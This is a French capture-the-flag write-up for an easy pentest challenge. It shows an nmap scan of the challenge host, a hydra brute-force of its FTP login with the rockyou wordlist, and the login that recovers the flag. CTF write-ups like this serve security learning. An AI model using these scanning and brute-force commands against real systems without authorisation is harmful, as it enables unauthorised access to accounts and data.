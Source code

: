 ## Pentester Academia 1/??? (EASY)

## Auteur(s) :
`Senkei`

## Catégorie : 
`Pentest`

## Description :

Voici mon home lab ! J'espère que personne ne va me hack ! 

> Bruteforce, Scan et autres outils autorisé.

`159.65.52.234`

**Flag** : `UHOCTF{XX_KK_AA_OO}`

---

## Solution :


On commence avec un nmap classque:

```bash
nmap -sC -sV -Pn --top-ports 100 159.65.52.234

Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-16 11:08 EDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:09 (0:00:13 remaining)
Nmap scan report for 159.65.52.234
Host is up (0.023s latency).
Not shown: 98 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines, NULL: 
|     220 FTP Server
|   SSLSessionReq: 
|     220 FTP Server
|_    Please login with USER and PASS.
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1668d46711534926abf8832a401c1baa (ECDSA)
|_  256 116c289ea5d206ea8a0726ff7d412ec9 (ED25519)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=6/16%Time=648C7B04%P=x86_64-pc-linux-gnu%r(NULL
SF:,10,"220\x20FTP\x20Server\r\n")%r(GenericLines,10,"220\x20FTP\x20Server
SF:\r\n")%r(SSLSessionReq,36,"220\x20FTP\x20Server\r\n530\x20Please\x20log
SF:in\x20with\x20USER\x20and\x20PASS\.\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```


On peut voir que ily a un service ftp et ssh qui tourne sur la machine.
SSLSessionReq: Please login with USER and PASS. nous indique qu'il faut un login et un mot de passe pour se connecter au ftp.

Sachant que c'est "Voici mon home lab ! J'espère que personne ne va me hack ! " on peut essayer de bruteforce le mot de passe avec hydra et le login de senkei:

```bash
hydra -l senkei -P /usr/share/wordlists/rockyou.txt ftp://159.65.52.234

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-06-16 11:11:59
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://159.65.52.234:21/
[21][ftp] host: 159.65.52.234   login: senkei   password: password


```
Bingo !


On peut se connecter en ftp avec les identifiants senkei:password et récupérer le flag:

```bash

$ ftp 159.65.52.234


Connected to 159.65.52.234.
220 FTP Server
Name (159.65.52.234:bash): senkei
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||40003|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            32 Jun 16 15:13 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||40000|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |***************************************************************************|    32      336.02 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (1.42 KiB/s)
ftp> ^D
221 Goodbye.

CTF_UNIV $ cat flag.txt

UHOCTF{Sry_No_TIme_for_PENTEST}

```

**Flag** : `UHOCTF{Sry_No_TIme_for_PENTEST}`
